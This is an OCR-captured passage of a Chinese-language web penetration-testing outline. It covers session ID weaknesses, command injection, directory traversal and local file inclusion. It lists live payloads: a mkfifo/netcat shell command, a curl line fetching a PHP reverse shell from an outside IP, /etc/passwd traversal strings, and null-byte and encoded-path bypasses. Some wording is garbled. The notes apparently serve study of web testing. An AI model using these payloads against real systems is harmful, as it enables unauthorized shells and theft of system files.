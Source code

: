             - 密码错误提示信息
        - 密码溴探
    - 会话sessionID
        - Xss/cookie importer
        - SessionID in URL
        - 嗅探
        - SessionID 长期不变/永久不变
        - SessionID 生成算法
            - Sequencer
            - 私有算法
            - 预判下一次登陆时生成的SessionID
            - 登出后返回测试
    - 密码找回
    - 漏洞挖掘原则
        - 所有变量
        - 所有头
            - Cookie中的变量
        - 逐个变量删除
    - 漏洞的本质
        -  数据与指令的混淆
        -  对用户输入信息过滤不严判断失误，误将指令当数据
    - 命令执行
        - 应用程序开发者直接调用操作系统功能
        - ； && | || &
        - 查看源码，过滤用户输入
        - ;mkfifo /tmp/pipe;sh /tmp/pipe | nc -nlp 4444 > /tmp/pipe
    - ;curl http://1.1.1.1/php-revers-shell.php
    - Directory traversal/File include(有区别/没区别)
        - 目录权限限制不严/文件包含
    - /etc/php5/cgi/php.ini
        - allow_url_include = on
    - 应用策划嗯需功能操作文件，限制不严时导致访问WEB目录以外的文件
        - 读、写文件、远程执行代码
    - 特征但不绝对
        - ？page=a.php
        - ?home=b.html
        - ?file=content
     - 经典测试方法
        - ?file=../../../../../etc/passwd
        - ?page=file:///etc/passwd
        - ?home=main.cgi
        - ?home=http://www.a.com/1.php
        - http://1.1.1.1/../../../../dir/file.txt
    - 编码绕过字符过滤
        - "."  "%00"  #绕过文件扩展名过滤
            - ？file=a.doc%00.php
        - 使用多种编码尝试
    - 不同操作系统的路径特征字符
        - 类unix系统
            - 根目录：/
            - 目录层及分隔符：/
        - windows系统
            - C：\
            - /或\
    - 编码
        - url编码、双层url编码
            - %2e%2e%2f    解码：../
            - %2e%2e%5c    解码：..\
            - %252e%252e%255c   解码:..\
        - Unicode/UTF-8编码
            - ..%c0%af      解码：../
            - ..%c1%9c      解码：..\
    - 其他系统路径可能使用到的字符
    - 本地文件包含lfi
